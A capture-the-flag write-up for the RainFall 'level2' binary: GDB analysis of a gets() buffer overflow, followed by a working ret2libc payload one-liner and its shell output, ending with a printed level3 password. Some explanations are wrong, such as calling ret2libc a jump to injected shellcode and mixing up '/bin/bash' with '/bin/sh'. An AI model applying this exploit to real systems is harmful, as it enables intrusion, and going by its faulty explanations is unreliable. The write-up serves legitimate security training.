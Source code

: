 # level2

## exploring the binary
```shell
level2@RainFall:~$ ./level2
phantom
phantom
level2@RainFall:~$ ./level2
FFFF FFF
FFFF FFF
```
The <code>level2</code> binary waits for standard input and then prints it out.

## GDB analysis
```shell
Dump of assembler code for function main:
   0x0804853f <+0>:	push   %ebp
   0x08048540 <+1>:	mov    %esp,%ebp
   0x08048542 <+3>:	and    $0xfffffff0,%esp
   0x08048545 <+6>:	call   0x80484d4 <p>
   0x0804854a <+11>:	leave
   0x0804854b <+12>:	ret
End of assembler dump.
```
The main function calls <code>p()</code> upon execution. This makes us wonder if there are other functions that haven't been called.
```shell
All defined functions:

Non-debugging symbols:
0x08048358  _init
0x080483a0  printf
0x080483a0  printf@plt
0x080483b0  fflush
0x080483b0  fflush@plt
0x080483c0  gets
0x080483c0  gets@plt
0x080483d0  _exit
0x080483d0  _exit@plt
0x080483e0  strdup
0x080483e0  strdup@plt
0x080483f0  puts
0x080483f0  puts@plt
0x08048400  __gmon_start__
0x08048400  __gmon_start__@plt
0x08048410  __libc_start_main
0x08048410  __libc_start_main@plt
0x08048420  _start
0x08048450  __do_global_dtors_aux
0x080484b0  frame_dummy
0x080484d4  p
0x0804853f  main
0x08048550  __libc_csu_init
0x080485c0  __libc_csu_fini
0x080485c2  __i686.get_pc_thunk.bx
0x080485d0  __do_global_ctors_aux
0x080485fc  _fini
```
As we've seen again before, the function <code>p()</code> utilizes the unsafe <code>gets()</code> function, which is vulnerable to buffer overflow attacks.
```shell
Dump of assembler code for function p:
   0x080484d4 <+0>:	push   %ebp
   0x080484d5 <+1>:	mov    %esp,%ebp
   0x080484d7 <+3>:	sub    $0x68,%esp
   0x080484da <+6>:	mov    0x8049860,%eax
   0x080484df <+11>:	mov    %eax,(%esp)
   0x080484e2 <+14>:	call   0x80483b0 <fflush@plt>
   0x080484e7 <+19>:	lea    -0x4c(%ebp),%eax
   0x080484ea <+22>:	mov    %eax,(%esp)
   0x080484ed <+25>:	call   0x80483c0 <gets@plt>
   0x080484f2 <+30>:	mov    0x4(%ebp),%eax
   0x080484f5 <+33>:	mov    %eax,-0xc(%ebp)
   0x080484f8 <+36>:	mov    -0xc(%ebp),%eax
   0x080484fb <+39>:	and    $0xb0000000,%eax
   0x08048500 <+44>:	cmp    $0xb0000000,%eax
   0x08048505 <+49>:	jne    0x8048527 <p+83>
   0x08048507 <+51>:	mov    $0x8048620,%eax
   0x0804850c <+56>:	mov    -0xc(%ebp),%edx
   0x0804850f <+59>:	mov    %edx,0x4(%esp)
   0x08048513 <+63>:	mov    %eax,(%esp)
   0x08048516 <+66>:	call   0x80483a0 <printf@plt>
   0x0804851b <+71>:	movl   $0x1,(%esp)
   0x08048522 <+78>:	call   0x80483d0 <_exit@plt>
   0x08048527 <+83>:	lea    -0x4c(%ebp),%eax
   0x0804852a <+86>:	mov    %eax,(%esp)
   0x0804852d <+89>:	call   0x80483f0 <puts@plt>
   0x08048532 <+94>:	lea    -0x4c(%ebp),%eax
   0x08048535 <+97>:	mov    %eax,(%esp)
   0x08048538 <+100>:	call   0x80483e0 <strdup@plt>
   0x0804853d <+105>:	leave
   0x0804853e <+106>:	ret
End of assembler dump.
```
This time, there is no direct <code>system()</code> call, so we may need to find our own way to access it. This situation is commonly referred to as a <code>return to libc</code> attack, where the overflow overwrites the return address with the memory address of the injected shellcode. Upon returning from the function, instead of jumping to the legitimate address, it redirects execution flow to the shellcode.


## ret2libc
There are 3 prerequisites for planning this type of attack:
- <code>system()</code> - which allows executing shell commands
- <code>exit()</code> - used to terminate the program after executing the shell command
- <code>/bin/bash</code> - which is passed as an argument to <code>system()</code> to spawn a shell

``` shell
overflow --> return from p() ? --EXPLOIT--> system() --> exit() --> /bin/bash
```

It might seem weird that the <code>/bin/bash</code> comes after <code>exit()</code>. When a program is compiled and linked, functions like <code>system()</code> and <code>exit()</code> from the libc are typically located before any static data such as strings. Therefore, the address of the <code>exit()</code> function usually comes before the address of the <code>/bin/bash</code> string in memory.

The offset is found in the same manner as before, with a value of 80. We determine the addresses of the functions and commands using <code>GDB</code>:
``` shell
(gdb) b main
Breakpoint 1 at 0x8048542
(gdb) r
Starting program: /home/user/level2/level2

Breakpoint 1, 0x08048542 in main ()
(gdb) p system
$1 = {<text variable, no debug info>} 0xb7e6b060 <system>
(gdb) p exit
$2 = {<text variable, no debug info>} 0xb7e5ebe0 <exit>
(gdb) find 0xb7e6b060, +999999999, "/bin/sh"
0xb7f8cc58
```

## exploit
The exploit is constructed using the addresses and overflow in the following order:
1. Offset of 80 bytes.
2. Return address from function <code>p()</code> (0x0804853e).
3. <code>system()</code> address (0xb7e6b060).
4. <code>exit()</code> address (0xb7e5ebe0).
5. <code>/bin/bash</code> address (0xb7f8cc58).

``` shell
level2@RainFall:~$ python -c 'print "F" * 80 + "\x08\x04\x85\x3e"[::-1] + "\xb7\xe6\xb0\x60"[::-1] + "\xb7\xe5\xeb\xe0"[::-1] + "\xb7\xf8\xcc\x58"[::-1]' > /tmp/flag2
level2@RainFall:~$ cat /tmp/flag2 - | ./level2
FFFFFFFFFFFFFFFFFFFFFFFFFFFFFFFFFFFFFFFFFFFFFFFFFFFFFFFFFFFFFFFF>FFFFFFFFFFFF>`�����X���
whoami
level3
cat /home/user/level3/.pass
492deb0e7d14c4b5695173cca843c4384fe52d0857c2b0718e1a521a4d33ec02
```
